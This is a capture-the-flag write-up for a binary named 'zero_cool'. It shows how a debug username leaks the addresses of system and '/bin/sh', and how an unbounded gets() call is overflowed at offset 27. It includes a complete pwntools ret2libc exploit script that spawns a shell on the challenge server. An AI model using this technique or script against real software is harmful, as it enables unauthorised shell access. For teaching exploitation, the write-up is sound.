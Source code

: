 # Buffer-Overflow with a twist

**This challenge required you to find a correct username that would leak two addresses on the stack, performing a buffer-overflow and calling the leaked addresses.**

### Analyzing the binary

after running `readelf -s zero_cool | grep FUNC` we see two interesting functions
`username` and `password` 

Opening the binary in ghidra and looking at the disassembly from the function `username` we quickly get to a section that looks peculiar

[Picture of username disassembly]

As we can see if we pass in the username `debug` we get where in memory the address of `system` is and where the address of `/bin/sh` is.

Now the program wants us to pass a password. Disassembling the function `password` we very quickly see that our input is passed to a
very dangerous function called `gets()` 


[Picture of the password decompilation]


explanation from the man page 

**Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely danger‐ous to use.**

Let's abuse `gets()`. After some trial and error the sweet spot is found to be `offset 27`. With all this information we are ready to move on to the attack phase.


### The Attack

Starting out we send the program a username in this case `debug` after that we grab the two leaked addresses. Now we are prompted for a password, we pass in our 27 A's and then call the first leaked address.
After having called the first address we add `4 bytes` worth of padding to be able to set the parameter for the first function. If done correctly we should have a call to `system` with the parameter `/bin/sh`.

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'i386'

elf = ELF('./zero_cool')
r = remote('0xa.is', 31338)

r.recvuntil('Username: ')
r.sendline('debug')

offset = 27

shell_func = r.recvline().decode('utf-8').split(': ')[1]
shell_func_param = r.recvline().decode('utf-8').split(': ')[1]

shell_func_addr = int(shell_func, 16)
shell_func_param_addr = int(shell_func_param, 16)

payload = [
        b"A"*offset,
        p32(shell_func_addr),
        b"A"*4,
        p32(shell_func_param_addr)
]

payload = b"".join(payload)
r.sendline(payload)
r.interactive()
```

### Flag: 10an{run_4nt1_v1ru5_g1v3_m3_5y5t3m5_d15pl4y_n0w}

